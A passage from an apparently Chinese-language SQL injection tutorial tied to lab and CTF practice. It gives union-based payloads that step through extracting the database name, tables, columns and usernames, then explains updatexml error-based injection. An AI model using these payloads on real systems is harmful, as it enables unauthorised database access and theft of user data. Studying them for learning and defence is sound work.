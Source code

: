 ```
?id=-1' union select 1,(select group_concat(database())),3--+
```

![image-20210806180920913](https://www.hualigs.cn/image/61153336493b3.jpg)

#### 六、获取数据库所有表名

```
?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database() limit 0,1),3--+
```

![image-20210806181926483](https://www.hualigs.cn/image/611533374e7ee.jpg)

#### 七、获取字段名

```
?id=-1%27%20union%20select%201
(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=database()%20limit%200,1),3--+
```

![image-20210806182030601](https://www.hualigs.cn/image/61153337db1b2.jpg)

#### 八、获取字段中的数据

```
?id=-1' union select 1,(select group_concat(username) from security.users limit 0,1),3--+
```

![image-20210806182333508](https://www.hualigs.cn/image/61153337d93df.jpg)

### 报错注入

现在非常多的Web程序没有正常的错误回显，这样就需要我们利用报错注入的方式来进行SQL注入了

报错注入的利用步骤和联合注入一致，只是利用函数不同。

以updatexml为例。

UpdateXML(xml_target, xpath_expr, new_xml)

**xml_target：** 需要操作的xml片段

**xpath_expr：** 需要更新的xml路径(Xpath格式)

**new_xml：** 更新后的内容

此函数用来更新选定XML片段的内容，将XML标记的给定片段的单个部分替换为 xml_target 新的XML片段 new_xml ，然后返回更改的XML。xml_target替换的部分 与xpath_expr 用户提供的XPath表达式匹配。

这个函数当xpath路径错误时就会报错，而且会将路径内容返回，这就能在报错内容中看到我们想要的内容。

而且以~开头的内容不是xml格式的语法，那就可以用concat函数拼接~使其报错，当然只要是不符合格式的都可以使其报错。

[极客大挑战 2019]HardSQL

![image-20210812161326718](https://www.hualigs.cn/image/6115333b46cf5.jpg)
